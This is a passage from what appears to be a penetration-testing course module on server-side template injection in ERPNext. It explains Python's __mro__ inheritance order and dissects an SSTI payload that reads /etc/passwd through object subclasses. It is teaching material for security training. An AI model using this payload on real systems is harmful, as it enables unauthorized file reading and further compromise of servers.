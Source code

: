 > Listing 57 - Example Inheritance with Strawberry

If we were to access the ___mro___ attribute of the _Strawberry_ class, we would discover the resolution order for the class.

```
>>> Strawberry.__mro__
(<class '__main__.Strawberry'>, <class '__main__.Fruit'>, <class '__main__.Food'>, <class 'object'>)
```

> Listing 58 - __mro__ of Strawberry

The ___mro___ attribute returned a tuple of classes in the order that an attribute would be searched for. If, for example, we were to access the _Calories_ attribute, first the _Strawberry_ class would be searched, next the _Fruit_ class, then the _Food_ class, and finally the _object_ class.

Note that the _object_ class was not specifically inherited. As of Python 3, whenever a class is created, the built-in _object_ class is inherited.[6](https://portal.offsec.com/courses/web-300-687/learning/erpnext-authentication-bypass-and-server-side-template-injection-10581/wrapping-up-10663/wrapping-up-10759#fn-local_id_269-6) This is important because it changes the variable we might use when exploiting an SSTI. Let's go back to our payload and determine the goal of ___mro___ in this scenario.

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

> Listing 59 - Accessing __mro__ attribute in payload

We'll attempt to get the second index of the tuple returned by the ___mro___ attribute in the payload.

```
>>> ''.__class__.__mro__
(<class 'str'>, <class 'object'>)

>>> ''.__class__.__mro__[2]
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
IndexError: tuple index out of range
```

> Listing 60 - Index out of range from payload

Accessing the second index of the ___mro___ attribute returns the error: "tuple index out of range". However, if we were to run this in Python 2.7, we would receive a different result.

```
kali@kali:~$ python2.7
...
>>> ''.__class__.__mro__
(<type 'str'>, <type 'basestring'>, <type 'object'>)

>>> ''.__class__.__mro__[2]
<type 'object'>
```

> Listing 61 - Using Python2.7 to view __mro__ attribute of empty string
